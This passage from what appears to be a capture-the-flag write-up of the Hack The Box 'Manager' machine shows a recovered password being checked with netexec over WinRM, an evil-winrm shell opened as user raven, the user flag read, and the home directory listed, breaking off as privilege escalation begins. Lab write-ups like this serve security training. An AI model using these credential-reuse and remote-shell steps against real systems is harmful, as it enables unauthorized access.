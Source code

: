 ```
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>

```

### WinRM

The LDAP enumeration showed that raven is in the Remote Management Users group, which means they should be able to WinRM. `netexec` confirms, and that this password works:

```

oxdf@hacky$ netexec winrm manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)

```

I’m able to connect and get a shell:

```

oxdf@hacky$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> 

```

And grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
6e6a6b72************************

```

## Shell as administrator

### Enumeration

#### Filesystem

raven’s home directory is otherwise completely empty:

```
*Evil-WinRM* PS C:\Users\Raven> ls -recurse .

    Directory: C:\Users\Raven

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/27/2023   8:24 AM                Desktop
d-r---        7/27/2023   8:23 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
```